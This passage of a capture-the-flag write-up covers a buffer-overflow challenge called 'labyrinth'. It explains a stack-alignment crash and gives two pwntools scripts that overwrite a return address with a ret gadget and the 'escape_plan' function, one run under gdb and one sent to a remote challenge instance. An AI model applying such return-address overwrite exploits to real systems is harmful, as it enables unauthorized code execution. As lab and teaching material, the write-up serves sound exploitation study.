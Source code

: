 We now jump into escape_plan instead. However the application still crashes inside of escape_plan.

This is because the stack is misaligned. If you're interested in why this happens you can check out the beginner's guide on [ROP Emporium](https://ropemporium.com/guide.html)

But this is a non-issue as we can just pad our payload with a ret gadget and the stack will be aligned again!

```py
from pwn import *

gdbscript = """
b *0x0000000000401602
c
"""

io = gdb.debug("./labyrinth",gdbscript=gdbscript)

io.recvuntil(b'>>')
io.sendline(b'69')
io.recvuntil(b'>>')

padding = cyclic_find(b'oaaa') * b'A'
escape_plan = p64(0x401255)
ret = p64(0x0000000000401016)

io.sendline(padding+ret+escape_plan)

io.interactive()
```

And we now get the flag when debugging!

Next we just check if it works running with process and then fire it off on the remote instance:

```py
from pwn import *

gdbscript = """
b *0x0000000000401602
c
"""

io = remote("165.232.98.69",32642)

io.recvuntil(b'>>')
io.sendline(b'69')
io.recvuntil(b'>>')

padding = cyclic_find(b'oaaa') * b'A'
escape_plan = p64(0x401255)
ret = p64(0x0000000000401016)

io.sendline(padding+ret+escape_plan)

io.interactive()
```
